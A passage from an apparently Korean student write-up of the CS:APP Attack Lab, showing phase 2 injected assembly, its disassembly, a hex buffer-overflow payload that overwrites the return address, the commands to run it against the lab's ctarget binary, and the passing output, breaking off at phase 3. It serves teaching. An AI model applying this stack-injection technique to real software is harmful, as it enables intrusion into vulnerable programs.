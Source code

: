 위 코드를 목적 코드로 바꾸기 위해 `gcc -c phase2.s`를 입력한다.
그리고 `objdump -d phase2.o`를 입력해 안의 내용을 확인한다.

```
csapp@a859b73afac0:~/project/attack$ objdump -d phase2.o

phase2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
   7:   68 ec 17 40 00          pushq  $0x4017ec
   c:   c3                      retq
```

이제 return address에 %rsp의 값을 넣어줘야 한다.
getbuf의 <+4>에 `b *0x4017ac`로 break를 걸어준 다음 프로그램을 실행하자.
그리고 rsp의 내용을 확인해보면 0x5561dc78이 들어 있다.
40bytes 안에 exploit code를 넣어야 하고, 그 다음에 return address를 넣어야 한다.
이때 return address를 little-endian으로 넣는 것을 잊지 말자.
위 내용대로 phase2.txt에 내용을 작성하면 아래처럼 된다.

```
// phase2.txt
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

그리고 아래를 순서대로 실행시켜 답을 확인하면 된다.

`./hex2raw < phase2.txt > phase2-ans.txt`
`./ctarget < phase2-and.txt`

```
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for Phase2 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00
```

### phase 3

ctarget에는 아래와 같은 두 함수가 있다.

```
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval)
{
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}

void touch3(char *sval)
{
    vlevel = 3;       /* Part of validation protocol */
```